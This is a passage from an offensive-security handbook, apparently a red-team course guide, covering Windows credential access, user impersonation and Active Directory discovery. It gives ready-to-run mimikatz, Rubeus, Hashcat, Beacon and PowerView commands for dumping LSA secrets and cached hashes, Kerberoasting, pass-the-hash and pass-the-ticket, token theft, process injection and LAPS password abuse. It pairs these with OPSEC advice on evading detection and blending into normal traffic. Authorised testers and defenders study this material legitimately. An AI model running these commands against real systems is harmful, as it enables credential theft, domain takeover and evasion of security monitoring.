LSA Secrets is protected storage used by the Local Security Authority [T1003.004]. Common contents include service account passwords, the machine account password ($MACHINE.ACC), and EFS encryption keys. Secrets are stored in HKLM\Security\Policy\Secrets, encrypted with a key from HKLM\Security\Policy.
Methodology
- Dump and decrypt LSA secrets (requires SYSTEM):
mimikatz !lsadump::secrets
OPSEC
- Opens a handle to the SECURITY registry hive; logged and detectable.
9.7 Cached Domain Credentials
Windows caches domain logon credentials locally so users can authenticate when the DC is unreachable [T1003.005]. The number of cached logons is controlled by CachedLogonCount in HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon (default: 10). Cached credentials are stored as MS-Cache v2 (DCC2) hashes, which cannot be used for pass-the-hash; they must be cracked offline.
Methodology
- Extract cached domain credentials (requires SYSTEM):
mimikatz !lsadump::cache - Note the iteration count from output (default 10240), then crack with Hashcat mode 2100:
hashcat -a 0 -m 2100 dcc2.hash wordlist.txt -r rules/dive.rule
The Hashcat format is $DCC2$<iterations>#<username>#<hash>. DCC2 is extremely slow to crack compared to NTLM (approximately 1085 kH/s on a 4070).
OPSEC
- Opens a handle to the SECURITY registry hive.
9.8 Kerberos Ticket Extraction
With elevated access, an attacker can extract Kerberos TGTs and service tickets cached in memory for all logon sessions on the machine. This uses LSA APIs (LsaCallAuthenticationPackage) rather than reading LSASS memory directly, avoiding the suspicious handle that Mimikatz's sekurlsa modules produce.
| Rubeus Command | Purpose |
|---|---|
triage | List all logon sessions and their cached tickets |
dump | Extract ticket(s) as base64-encoded kirbi blobs |
describe | Show ticket metadata (start, end, renew times) |
renew | Renew a TGT before expiry (up to RenewTill date) |
Methodology
- List all cached tickets across logon sessions (requires elevation):
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage - Dump a specific user's TGT by LUID:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x<LUID> /service:krbtgt /nowrap - Inspect ticket lifetime and renewal window:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:<BASE64_TICKET> - Renew a TGT before expiry (valid up to 7 days from original issue by default):
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe renew /ticket:<BASE64_TICKET> /nowrap
Tickets with krbtgt as the service name are TGTs; all others are service tickets. TGTs default to a 10-hour lifetime and can be renewed for up to 7 days from the original StartTime.
9.8.1 Kerberos BOFs
RalfHacker's Kerberos BOFs provide Beacon Object File alternatives to Rubeus, avoiding execute-assembly and .NET loading. The Aggressor scripts add commands like krb_triage and krb_dump.
- Triage tickets via BOF:
krb_triage - Dump a user's TGT via BOF:
krb_dump /user:<USERNAME> /service:krbtgt
OPSEC
- Ticket extraction via LSA APIs does not open a handle to LSASS and is not logged via kernel callbacks; significantly stealthier than
sekurlsamodules. - Tickets have limited lifetimes; hashes remain valid until the password changes.
- Must be in a high-integrity session to triage and dump tickets from other users' logon sessions.
9.9 Kerberoasting
Kerberoasting [T1558.003] targets domain accounts with SPNs set. An attacker requests TGS tickets for those SPNs, then cracks the encrypted portion offline to recover the service account password. This is not viable against computer accounts (128-character auto-rotated passwords); it targets human-created service accounts with weak passwords.
Methodology
- Enumerate all kerberoastable accounts (LDAP query to identify targets before roasting):
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe -s "(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" --attributes cn,samaccountname,serviceprincipalname - Roast a specific SPN (targeted approach):
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:<SPN> /simple /nowrap - Or roast all non-default SPNs at once (noisier):
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /format:hashcat /simple - Crack RC4 TGS hashes with Hashcat mode 13100:
hashcat -a 0 -m 13100 tgs.hash wordlist.txt -r rules/dive.rule
OPSEC
- Each TGS-REP generates a 4769 event; a single user requesting many tickets in a short window is suspicious.
- Rubeus requests RC4-encrypted tickets by default; modern environments use AES, making RC4 requests anomalous.
- Defenders may deploy honeypot SPNs backed by no real service; any TGS request for them is a high-fidelity alert. Enumerate and triage targets first rather than blindly roasting every SPN.
9.10 AS-REP Roasting
AS-REP Roasting [T1558.004] targets accounts with Kerberos preauthentication disabled. Without preauthentication, an attacker sends AS-REQs without a valid encrypted timestamp and the KDC responds with an AS-REP containing a blob encrypted with the target account's key. This blob can be cracked offline to recover the plaintext password.
Methodology
- Enumerate and roast all accounts with preauthentication disabled:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap - Crack RC4 AS-REP hashes with Hashcat mode 18200:
hashcat -a 0 -m 18200 asrep.hash wordlist.txt -r rules/dive.rule
Use /format:hashcat to output in Hashcat format (Rubeus defaults to John the Ripper format).
OPSEC
- Each AS-REP generates a 4768 event; multiple AS-REQs from a single user in rapid succession should trigger investigation.
- Rubeus requests RC4-encrypted tickets by default; modern Windows environments prefer AES, making RC4 requests stand out.
9.11 Password Cracking
Hashcat is the primary tool for cracking extracted hashes offline. Selecting the right attack mode, hash type, and strategy dramatically affects success rate and time to crack.
| Hash Type | Hashcat Mode | Source | Relative Speed |
|---|---|---|---|
| NTLM | 1000 | LSASS / SAM | Very fast (140 GH/s) |
| AES256 (Kerberos) | 28900 | sekurlsa::ekeys | Slow (1375 kH/s) |
| MS-Cache v2 (DCC2) | 2100 | lsadump::cache | Slow (1085 kH/s) |
| Kerberoast (RC4) | 13100 | TGS-REP | Moderate |
| AS-REP (RC4) | 18200 | AS-REP | Moderate |
9.11.1 Wordlist + Rules
A dictionary attack tries each candidate from a wordlist. Rules extend base words using common human patterns: case toggling, character substitution, and appending digits or symbols.
- Basic wordlist attack:
hashcat -a 0 -m 1000 ntlm.hash wordlist.txt - Wordlist with rule file (e.g., append year):
hashcat -a 0 -m 1000 ntlm.hash wordlist.txt -r rules/dive.rule
9.11.2 Mask Attacks
Mask attacks target specific password patterns (e.g., uppercase + lowercase + digit) without brute-forcing the full keyspace. Custom charsets combine multiple character classes in a single position.
| Placeholder | Charset |
|---|---|
?l | Lowercase a-z |
?u | Uppercase A-Z |
?d | Digits 0-9 |
?s | Special characters |
?a | All printable |
?1 - ?4 | Custom charsets |
- Mask attack (e.g.,
Password1pattern):hashcat -a 3 -m 1000 ntlm.hash ?u?l?l?l?l?l?l?l?d - Custom charset for last position (digit or special):
hashcat -a 3 -m 1000 ntlm.hash -1 ?d?s ?u?l?l?l?l?l?l?l?1 - Use a mask file for multiple lengths:
hashcat -a 3 -m 1000 ntlm.hash masks/example.hcmask
9.11.3 Hybrid and Combinator Attacks
Hybrid mode 6 appends a mask to each dictionary word; mode 7 prepends. The combinator attack (mode 1) joins words from two dictionaries, with optional per-side rules via -j and -k.
- Hybrid wordlist + mask (append 4 digits):
hashcat -a 6 -m 1000 ntlm.hash wordlist.txt ?d?d?d?d - Hybrid mask + wordlist (prepend 4 digits):
hashcat -a 7 -m 1000 ntlm.hash ?d?d?d?d wordlist.txt - Combinator with per-side rules:
hashcat -a 1 -m 1000 ntlm.hash list1.txt list2.txt -j '$-' -k '$!'
9.11.4 Key-Walk Generation
The kwprocessor utility generates key-walk passwords based on adjacent keyboard keys (e.g., qwerty, 1q2w3e4r). These look random but are predictable. The output wordlist can be used in any Hashcat dictionary attack.
- Generate a key-walk wordlist:
kwp64.exe basechars\custom.base keymaps\uk.keymap routes\2-to-10-max-3-direction-changes.route -o keywalk.txt
9.12 LAPS
The Local Administrator Password Solution (LAPS) manages unique, randomly generated passwords for local admin accounts across domain-joined machines. Passwords are stored in the ms-Mcs-AdmPwd attribute on computer objects in AD, readable only by delegated principals.
| Component | Description |
|---|---|
ms-Mcs-AdmPwd | Stores the plaintext password (DACL-protected, default: Domain Admins only) |
ms-Mcs-AdmPwdExpirationTime | Password expiry timestamp (readable by any domain user) |
AdmPwd.dll | LAPS client installed on managed machines |
PasswordAgeDays | Rotation interval configured via GPO (e.g., 30 days) |
Methodology
- Check if LAPS client is installed on the current machine:
ls C:\Program Files\LAPS\CSE - Find GPOs related to LAPS:
powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl - Identify computers managed by LAPS (non-null expiration):
powershell Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName - Find who can read
ms-Mcs-AdmPwdvia DACL enumeration:powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier - Use LAPSToolkit to find delegated groups:
powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1 powershell Find-LAPSDelegatedGroups - Read the LAPS password (requires delegated read access):
powershell Get-DomainComputer -Identity <COMPUTER> -Properties ms-Mcs-AdmPwd - Use the recovered password:
make_token .\LapsAdmin <PASSWORD>
9.12.1 Password Expiration Abuse
If PwdExpirationProtectionEnabled is not configured (disabled by default), an attacker with write access to ms-Mcs-AdmPwdExpirationTime can push the expiry far into the future, preventing automatic rotation. Every computer object has delegated write access to its own expiration field, so this must be run as SYSTEM on the target.
- Check current expiration:
powershell Get-DomainComputer -Identity <COMPUTER> -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime - Push expiration 10 years into the future (run as SYSTEM on the target):
powershell Set-DomainObject -Identity <COMPUTER> -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
OPSEC
- The modified expiration date is visible to admins and a manual password reset restores it.
- If expiration protection is enabled, setting the date beyond the policy window triggers an immediate password reset.
10. User Impersonation
User Impersonation (T1550) covers techniques for using credential material obtained during Credential Access to assume another user's identity. Once an adversary holds plaintext passwords, NTLM hashes, AES keys, or Kerberos tickets, they must apply that material to authenticate as the target user.
10.1 Logon Sessions and Access Tokens
Every successful authentication creates a logon session tracked by the Local Security Authority (LSA). The LSA then builds an access token that Windows checks whenever a process touches a securable object. Understanding both structures is critical to knowing what impersonation actually modifies.
| Logon Session Field | Description |
|---|---|
| LUID | Unique Logon Identifier for this session |
| SID | Security Identifier of the authenticated user |
| Auth Package | Package that performed authentication (e.g., Kerberos, NTLM) |
| Logon Server | Domain controller that validated the credentials |
| UPN | User Principal Name and DNS domain |
| Access Token Field | Description |
|---|---|
| Token ID | Unique identifier for this token instance |
| Authentication ID | LUID of the parent logon session |
| Token Type | Primary (assigned to process) or Impersonation (thread-level) |
| User SID | SID of the token owner |
| Group SIDs | Domain and local group memberships |
| Privileges | User right assignments (e.g., SeDebugPrivilege) |
| Integrity Level | Low, Medium, High, or System |
Every process receives a copy of the primary access token from its logon session. A thread can impersonate a different token, letting it act under a separate identity. LSASS caches credentials (plaintext, NTLM/AES hashes, Kerberos tickets) per logon session and uses them when a process accesses a network resource.
10.2 Make Token
The make_token command creates a new access token from plaintext credentials using the LogonUserA API with LOGON32_LOGON_NEW_CREDENTIALS logon type, then impersonates it via ImpersonateLoggedOnUser. The resulting token clones the caller's local identity but uses the supplied credentials for outbound network connections. No elevated privileges are required.
Methodology
- Create a token with plaintext credentials:
make_token DOMAIN\user Password123 - Verify network access to a remote resource:
ls \\target\c$ - Drop impersonation when finished:
rev2self
OPSEC
- Generates Event ID 4624 with LogonType 9 (
LOGON32_LOGON_NEW_CREDENTIALS) — same asrunas /netonly, making it hard to distinguish from legitimate use. - Only affects network authentication — local actions still run under the original token, so
whoamireturns the original user.
10.3 Token Theft
Token theft (steal_token) duplicates the primary access token from a process owned by another user and impersonates it. This requires a high-integrity session because you must open a handle to another user's process.
| API Call | Purpose |
|---|---|
OpenProcess | Obtain handle to target process |
OpenProcessToken | Obtain handle to its primary token |
DuplicateToken | Duplicate primary token as an impersonation token |
ImpersonateLoggedOnUser | Apply the duplicated token to current thread |
Methodology
- Identify a target process owned by the desired user:
ps - Steal the process token:
steal_token <PID> - Use the impersonated identity for network or local access:
ls \\target\c$ - Drop impersonation when finished:
rev2self
OPSEC
- Opens a handle to the target process and its token — repeated handle operations increase detection surface.
- If the user closes the process, the stolen token becomes unusable (unless stored in the token store).
10.4 Token Store
The token store holds a persistent reference to stolen tokens, preventing Windows from disposing of the logon session even if the source process terminates. Tokens are reference-counted by the kernel, so an active handle keeps them alive. Each Beacon has its own store — tokens cannot transfer between Beacons.
| Command | Purpose |
|---|---|
token-store steal <PID> | Steal a token and add it to the store |
token-store show | List all tokens in the store |
token-store use <ID> | Impersonate a stored token |
token-store remove <ID> | Remove a single token from the store |
token-store remove-all | Flush the entire store |
Methodology
- Steal a token directly into the store:
token-store steal <PID> - List stored tokens:
token-store show - Impersonate a stored token by ID:
token-store use 0 - Drop impersonation (token remains in store):
rev2self - Remove a token when no longer needed:
token-store remove 0
OPSEC
- Fewer repeated handle operations compared to calling
steal_tokenmultiple times — steal once, reuse from store. - Maintains an open handle to the duplicated token for the lifetime of the Beacon, which may appear in handle auditing.
10.5 Pass the Hash
Pass the Hash (T1550.002) authenticates using an NTLM hash without knowing the plaintext password. Beacon's built-in pth command wraps Mimikatz sekurlsa::pth, which starts a new logon session, patches the NTLM hash into its credential cache, then uses a named pipe trick for automatic impersonation. Requires elevated privileges.
Microsoft is actively deprecating NTLM. Kerberos is the default authentication protocol, so NTLM traffic is increasingly anomalous and may be restricted in hardened environments. Prefer Pass the Ticket (section 10.7) when possible.
Methodology
- Use the built-in
pthcommand (may be blocked by Defender):pth DOMAIN\user [ntlm-hash] - Alternative: run
sekurlsa::pthmanually to spawn a process, then steal its token:mimikatz sekurlsa::pth /user:[user] /domain:[DOMAIN] /ntlm:[ntlm-hash] /run:%COMSPEC%- Steal the token from the spawned process (use PID from output):
steal_token <PID>
- Steal the token from the spawned process (use PID from output):
- Verify access to the target:
ls \\target\c$ - Clean up — drop token and kill the spawned process:
rev2self- Terminate the sacrificial process:
kill <PID>
- Terminate the sacrificial process:
OPSEC
- R/W handle to LSASS with access mask
0x1038(PROCESS_VM_WRITE + PROCESS_VM_READ + PROCESS_VM_OPERATION + PROCESS_QUERY_LIMITED_INFORMATION) — detected by handle auditing rules. - Named pipe pattern
echo <data> > \\.\pipe\<name>in command-line logs is a known indicator. - Blocked by LSASS PPL since it requires patching LSASS memory.
- NTLM authentication is increasingly anomalous — prefer Kerberos-based techniques.
10.6 Overpass the Hash
Overpass the Hash requests a Kerberos TGT using a user's NTLM or AES hash via Rubeus asktgt. Elevated privileges are needed to extract hashes, but requesting the ticket itself does not require elevation. The resulting TGT is then used via Pass the Ticket.
Methodology
- Request a TGT with the user's AES256 key (preferred over NTLM):
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[user] /aes256:[aes256-key] /domain:DEV /opsec /nowrap - Inject the resulting TGT via Pass the Ticket (see section 10.7).
OPSEC
- Using an NTLM hash returns RC4-encrypted tickets (etype
0x17) — this is a legacy encryption type and stands out in Event ID 4768 logs. - Always use AES256 keys (etype
0x12) to blend with normal Kerberos traffic. - Without
/domain:NETBIOS, Rubeus sends the FQDN as the realm name — legitimate clients send the NetBIOS name. Use/domain:DEVto match. - Without
/opsec, ticket options are0x40800010instead of the normal0x40810010— the/opsecflag corrects this. - Rubeus generates Kerberos traffic from a non-LSASS process — detectable via process-level network monitoring. Mimikatz avoids this but writes to LSASS. Pick your poison.
10.7 Pass the Ticket
Pass the Ticket (T1550.003) injects a Kerberos ticket into a logon session's credential cache. Unlike PtH, this uses native Windows APIs rather than patching LSASS, making it stealthier and unaffected by PPL. Kerberos authentication is the default and does not trigger NTLM restriction policies.
A logon session can hold only one TGT. Injecting a ticket into an existing session overwrites the user's real TGT, breaking their authentication. The correct approach is to create a sacrificial logon session first.
Methodology
- Create a sacrificial logon session with
make_token(password can be fake):make_token DOMAIN\targetuser [password] - Save the base64 ticket from Rubeus to a
.kirbifile (on the CS client machine):$ticket = "doIFo[...snip...]kNPTQ==" [IO.File]::WriteAllBytes("C:\Users\[user]\Desktop\target.kirbi", [Convert]::FromBase64String($ticket)) - Inject the ticket into the current (sacrificial) session:
kerberos_ticket_use C:\Users\[user]\Desktop\target.kirbi - Verify Kerberos access:
ls \\target\c$ - Clean up — purge tickets and drop session:
kerberos_ticket_purge- Drop impersonation:
rev2self
- Drop impersonation:
10.7.1 Alternative: Rubeus createnetonly + ptt
Rubeus can create the sacrificial session and inject the ticket without Beacon's make_token. This spawns a hidden process in a new logon session, returns the PID and LUID, then injects the ticket into that LUID.
- Create a sacrificial process with realistic credentials:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[DOMAIN] /username:targetuser /password:[password] - Inject ticket into the new LUID:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x132ef34 /ticket:<base64_ticket> - Steal the token from the sacrificial process:
steal_token <PID> - Clean up — drop token and kill process:
rev2self- Terminate the sacrificial process:
kill <PID>
- Terminate the sacrificial process:
10.7.2 The getuid Confusion
After steal_token on a createnetonly process, getuid returns the user who spawned the process, not the user whose ticket was injected. This is because getuid reads the primary access token, which is unaffected by credential material patched into the logon session. The Kerberos ticket determines network identity; the token determines the reported username.
OPSEC
- Default
createnetonlyuses random username/domain/password — this appears in the Event ID 4624 logon event. Supply realistic values via/domain,/username, and/password. - Rubeus
pttcan also accept a path to a.kirbion the target machine's disk, not just base64. - Creating a new logon session requires elevated privileges.
10.8 Process Injection
Process injection (T1055) injects Beacon shellcode into a process owned by another user. The resulting Beacon session runs in that process's address space under its owner's security context. This is a blunt approach compared to token-based techniques but produces a fully independent session.
| Command | Purpose |
|---|---|
inject <PID> <arch> <listener> | Inject a full Beacon payload into a process |
shinject <PID> <arch> <file> | Inject arbitrary shellcode from a local binary file |
Methodology
- Identify a target process owned by the desired user:
ps - Inject Beacon shellcode into the process:
inject <PID> x64 <listener> - For P2P listeners, Beacon auto-connects to the child session.
OPSEC
- Requires a handle with write access to the target process memory — high-integrity needed for cross-user injection.
- If the user closes the process, the Beacon session dies. Injected shellcode uses
ExitThread, so exiting the Beacon does not kill the host process. - Cross-process memory allocation and write operations are high-fidelity detection signals for EDR.
- Extracting credentials (hashes or tickets) and using PtH/PtT is more durable than relying on a single injected process.
11. Discovery
Discovery (MITRE TA0007) is where an adversary enumerates the environment after gaining access. It feeds directly into lateral movement by identifying systems, privileges, misconfigurations, and attack paths. Most domain enumeration relies on LDAP (TCP 389/636) or ADWS (Active Directory Web Services), both queryable by any authenticated domain user.
11.1 BloodHound and Data Collection
BloodHound (by SpecterOps) maps attack paths across Active Directory and Entra ID. The Community Edition targets offensive use; the Enterprise Edition targets defense. BloodHound CE runs in Docker via BH-CLI and is accessible at http://localhost:8080.
Default collectors (SharpHound, AzureHound, BloodHound.py) are heavily signatured. Their hardcoded queries, session enumeration traffic, and bulk data retrieval trigger alerts from most mature security teams. The alternative is manual data collection with ldapsearch or pyldapsearch, then parsing the output with BOFHound into BloodHound-compatible JSON.
| Collector | Protocol | Risk Level |
|---|---|---|
SharpHound | LDAP + SMB + RPC | High — signatured queries, session enum traffic |
AzureHound | MS Graph API | Medium — cloud-side logging |
BloodHound.py | LDAP + RPC | High — same query patterns as SharpHound |
ldapsearch BOF + BOFHound | LDAP only | Low — custom queries, no session enum |
OPSEC
- LDAP queries are logged client-side via the LDAP Client ETW provider and server-side via performance events.
- Running default collectors against a mature SOC will almost certainly generate alerts. Use targeted, manual LDAP queries instead.
- Build your BloodHound dataset incrementally over days or weeks rather than pulling everything at once.
11.2 LDAP Enumeration
LDAP requires a session with a domain controller before submitting queries. Sessions authenticate via the caller's domain context or explicit credentials. Every AD object has an objectClass that defines its available attributes.
| objectClass | Description |
|---|---|
computer | Computer account in the domain |
domain | Domain information container |
group | Security principal list for resource access |
user | User account information |
groupPolicyContainer | Group Policy Object container |
organizationalUnit | OU for organizing accounts and objects |
trustedDomain | Domain trust relationship |
Computer accounts inherit the person, organizationalPerson, and user object classes. Searching for person or user objects returns computers as well. Use sAMAccountType for precise filtering.
| sAMAccountType | Decimal Value | Object |
|---|---|---|
SAM_NORMAL_USER_ACCOUNT | 805306368 | User accounts |
SAM_MACHINE_ACCOUNT | 805306369 | Computer accounts |
SAM_GROUP_OBJECT | 268435456 | Domain local groups |
11.2.1 LDAP Filter Syntax
Filters use prefix notation: operators (&, |, !) appear at the beginning of each grouping. Use the --attributes parameter to limit returned fields and reduce query time.
| Operator | Syntax | Purpose |
|---|---|---|
| AND | (&(a)(b)) | Both conditions must match |
| OR | (|(a)(b)) | Either condition matches |
| NOT | (!(a)) | Exclude matching objects |
Methodology
- Enumerate all user accounts:
beacon> ldapsearch (samAccountType=805306368) - Find users with
adminCount=1(excluding krbtgt):beacon> ldapsearch (&(samAccountType=805306368)(adminCount=1)(!(name=krbtgt))) - Search by description or username pattern:
beacon> ldapsearch (&(samAccountType=805306368)(|(description=*admin*)(samaccountname=*adm*))) - Return only specific attributes:
beacon> ldapsearch (&(samAccountType=805306368)(adminCount=1)) --attributes name,memberof - Include security descriptors for ACL-based attack paths:
beacon> ldapsearch (&(samAccountType=805306368)(adminCount=1)) --attributes name,memberof,ntsecuritydescriptor - Return all attributes plus security descriptor:
beacon> ldapsearch (samAccountType=805306368) --attributes *,ntsecuritydescriptor
11.2.2 Bitwise and Chain Queries
LDAP supports bitwise operators via OIDs for querying flag-based attributes like userAccountControl.
| OID | Name | Use Case |
|---|---|---|
1.2.840.113556.1.4.803 | LDAP_MATCHING_RULE_BIT_AND | Check if a specific UAC flag is set |
1.2.840.113556.1.4.804 | LDAP_MATCHING_RULE_BIT_OR | Check if any of several flags are set |
1.2.840.113556.1.4.1941 | LDAP_MATCHING_RULE_IN_CHAIN | Recursively unroll nested group membership |
- Find computers with unconstrained delegation (UAC flag 524288):
beacon> ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname - Recursively unroll nested group membership (e.g., Domain Admins):
beacon> ldapsearch "(memberof:1.2.840.113556.1.4.1941:=CN=Domain Admins,CN=Users,DC=[domain-component],DC=[tld])" --attributes samaccountname
OPSEC
Domain controllers track three query performance thresholds. All values are configurable per-organization, so no universal safe limits exist.
| Threshold | Trigger | Mitigation |
|---|---|---|
| Expensive Search Results | Query returns more objects than the configured limit (e.g., (objectClass=*)) | Use targeted filters; avoid wildcard class queries |
| Search Time | Query runs longer than N milliseconds; worst with *,ntsecuritydescriptor | Request only essential attributes: samaccounttype,distinguishedname,objectsid,ntsecuritydescriptor |
| Inefficient Search Results | Returns <10% of visited objects above the threshold | Retrieve all objects of a type in one broad query rather than filtering for rare attributes |
- Inefficiency trap — a query for kerberoastable users visits every user but returns only those with SPNs. If fewer than 10% have SPNs, the query is flagged as inefficient.
- Workaround — pull all users with minimal attributes in a single query:
ldapsearch (samAccountType=805306368) --attributes samaccounttype,distinguishedname,objectsid,serviceprincipalname,useraccountcontrol,ntsecuritydescriptor. This returns 100% of visited objects (efficient) and stays fast with limited attributes. - Use indexed attributes where possible. Microsoft documents which directory attributes are indexed.
11.3 BOFHound and BloodHound Ingestion
BOFHound is a Python tool that parses raw ldapsearch BOF output from Cobalt Strike logs into BloodHound-compatible JSON files. These JSON files are uploaded through the BloodHound CE UI under Administration > File Ingest.
Methodology
- Collect domain, OU, GPO, user, computer, and group data via LDAP:
beacon> ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) --attributes *,ntsecuritydescriptor beacon> ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor - Copy team server logs to your analysis machine:
scp -r [user]@[team-server-ip]:/opt/cobaltstrike/logs . - Parse logs with BOFHound:
bofhound -i logs/ - Upload generated JSON files (computers, domains, gpos, groups, ous, users) via BloodHound CE UI: Administration > File Ingest.
- Query for kerberoastable users in BloodHound:
MATCH (n:User) WHERE n.hasspn=true RETURN n - Fill gaps — objects shown only as SIDs need additional LDAP queries:
beacon> ldapsearch (objectsid=S-1-5-21-XXXX-XXXX-XXXX-XXXX) --attributes *,ntsecuritydescriptor
11.4 Restricted Groups and GPO Local Group Mapping
LDAP alone cannot reveal restricted group memberships — local group assignments pushed through GPOs. Without this data, BloodHound misses AdminTo edges. The policy files live in SYSVOL under each GPO's machine configuration.
Methodology
- Locate the restricted groups policy file in SYSVOL:
\\[domain]\SysVol\[domain]\Policies\{GPO-GUID}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf - Download and read
GptTmpl.inf— look for[Group Membership]entries mapping domain SIDs to local group SIDs:[Group Membership] *S-1-5-21-...-1107__Memberof = *S-1-5-32-544 *S-1-5-21-...-1107__Members = - Cross-reference the domain SID in BloodHound and the local SID against Microsoft's well-known SID list.
- Add the
AdminToedge manually via Cypher:MATCH (x:Computer{objectid:'S-1-5-21-...-1110'}) MATCH (y:Group{objectid:'S-1-5-21-...-1107'}) MERGE (y)-[:AdminTo]->(x)
| Well-Known Local SID | Group |
|---|---|
S-1-5-32-544 | Administrators |
S-1-5-32-555 | Remote Desktop Users |
S-1-5-32-580 | Remote Management Users |
11.5 WMI Filters on GPOs
WMI filters restrict GPO application based on WMI queries (e.g., OS version, computer name). A GPO can have one WMI filter; a WMI filter can apply to multiple GPOs. BloodHound does not currently collect, display, or evaluate WMI filters, so you must verify them manually.
Methodology
- Check which GPOs have WMI filters applied:
beacon> ldapsearch (objectClass=groupPolicyContainer) --attributes displayname,gPCWQLFilter - Retrieve the WMI filter details using its GUID:
beacon> ldapsearch (objectClass=msWMI-Som) --attributes name,msWMI-Name,msWMI-Parm2 --dn "CN=SOM,CN=WMIPolicy,CN=System,DC=[domain-component],DC=[tld]" - Parse the
msWMI-Parm2value to understand the WQL query and determine which computers are included or excluded.
The msWMI-Parm2 format: 1;3;10;{length};WQL;{namespace};{query};. For example, a filter targeting Windows 10+ uses SELECT * from Win32_OperatingSystem WHERE Version like "10.%". Any computer not matching the WQL query is excluded from the GPO, even if it resides in the linked OU.
OPSEC
- Failure to check WMI filters can lead to incorrect assumptions about which computers a GPO applies to — you may target a machine where the expected local admin edge does not exist.
11.6 PowerView and SharpView
PowerView is the classic PowerShell tool for domain enumeration. Its strength is proper PowerShell object output, enabling command chaining and piping. SharpView is a C# port with the same functionality but without PowerShell's piping capability. Both are heavily signatured and best suited for less mature environments.
| Cmdlet | Purpose |
|---|---|
Get-Domain | Domain name, forest, domain controllers |
Get-DomainController | DC names, OS versions, forest membership |
Get-ForestDomain | All domains in the current forest |
Get-DomainPolicyData | Password policy, lockout thresholds |
Get-DomainUser | User objects and properties |
Get-DomainComputer | Computer objects and DNS hostnames |
Get-DomainOU | Organizational units |
Get-DomainGroup | Domain groups |
Get-DomainGroupMember | Members of a specific group |
Get-DomainGPO | Group Policy Objects |
Get-DomainGPOLocalGroup | GPOs modifying local groups via Restricted Groups / GPP |
Get-DomainGPOUserLocalGroupMapping | Where a group has local admin via GPO |
Get-DomainTrust | Domain trust relationships |
Methodology
- Import PowerView:
powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1 - Enumerate domain info and password policy:
powershell Get-Domain powershell Get-DomainPolicyData | select -expand SystemAccess - Enumerate users and group memberships:
powershell Get-DomainUser -Identity [user] -Properties DisplayName, MemberOf | fl - Find groups matching a pattern:
powershell Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName - Enumerate group members:
powershell Get-DomainGroupMember -Identity "Domain Admins" | select MemberDistinguishedName - Map GPO-based local admin access:
powershell Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName | fl - Enumerate domain trusts:
powershell Get-DomainTrust
OPSEC
- PowerView requires
powershell-importwhich loads the script into the Beacon process — triggers Script Block Logging and AMSI. - SharpView runs as a .NET assembly via
execute-assembly— avoids PowerShell logging but is signatured by most EDR. - Prefer
ldapsearchBOF for production engagements; reserve PowerView/SharpView for less-defended environments.
11.7 ADSearch
ADSearch is a .NET tool for custom LDAP queries with cleaner output than SharpView. It supports arbitrary filters, specific attribute retrieval via --attributes, and JSON output via --json.
Methodology
- Search for all domain users:
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "objectCategory=user" - Find groups matching a pattern:
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=*Admins))" - Return specific attributes for a group:
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=MS SQL Admins))" --attributes cn,member
11.8 External Reconnaissance
External reconnaissance gathers intelligence from publicly available sources before or during an engagement. DNS records, search engine dorking, and social media all feed into target profiling.
11.8.1 DNS Enumeration
- Resolve A records for the target domain:
dig [domain] - Identify IP ownership:
whois 172.67.205.143 - Enumerate subdomains:
./dnscan.py -d [domain] -w subdomains-100.txt - Check email security (SPF, DMARC, DKIM) for spoofing potential:
python3 spoofy.py -d [domain] -o stdout
If the target uses services like Cloudflare, the actual hosting infrastructure may be obscured. Confirm whether the backend is on-premise or in a cloud provider (AWS, Azure) that requires explicit pentest authorization. SaaS services like Office 365 often appear as autodiscover.target-domain DNS records.
11.8.2 Google Dorking
Advanced search operators target specific information indexed by Google. Combine operators for precision.
| Operator | Example | Purpose |
|---|---|---|
site: | site:apple.com | Limit results to a specific domain |
intitle: | intitle:admin | Pages with a word in the title |
inurl: | inurl:login | Pages with a word in the URL |
intext: | intext:password | Pages containing a word in the body |
filetype: | site:apple.com filetype:pdf | Find specific file types (pdf, docx, xlsx) |
